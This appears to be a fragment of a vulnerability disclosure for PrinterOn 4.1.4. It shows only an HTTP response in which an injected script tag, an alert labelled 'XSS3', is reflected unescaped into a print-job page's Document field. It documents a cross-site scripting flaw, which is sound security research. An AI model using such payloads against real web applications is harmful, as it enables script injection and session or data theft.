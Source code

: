 ##### Response:
```
HTTP/1.1 200 
Cache-Control: must-revalidate
Cache-Control: max-age=0
Cache-Control: no-cache
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: text/html;charset=utf-8
Content-Language: en-US
Date: Thu, 06 Sep 2018 07:26:37 GMT
Connection: close
Server: PrinterOn
Content-Length: 9537
<--SNIP-->
 <div class="row">
                              <div class="col-md-3"></div>
                              <div class="col-md-3 text-center">
                                  <label>Document</label>
                              </div>
                              <div class="col-md-3 text-center">
                                  <script>alert("PrinterOn 4.1.4 XSS3")</script>
                              </div>
                          </div>
                          <div class="row">
                              <div class="col-md-3"></div>
                              <div class="col-md-3 text-center">
                                  <label class="control-label">Job ID</label>
                              </div>
                              <div class="col-md-3 text-center">
                                  1001256
                              </div>
                          </div>
                          <!-- Closing this will cancel your request -->
                          <div class="row">
                              <div class="col-md-3 text-center">      
                          </div>
                      </div>
                    </div>
                </div>
    </div>
</div><script type="application/javascript" src="/cps/js/SubmitRequest.js"></script>
    </body>
</html>
```

























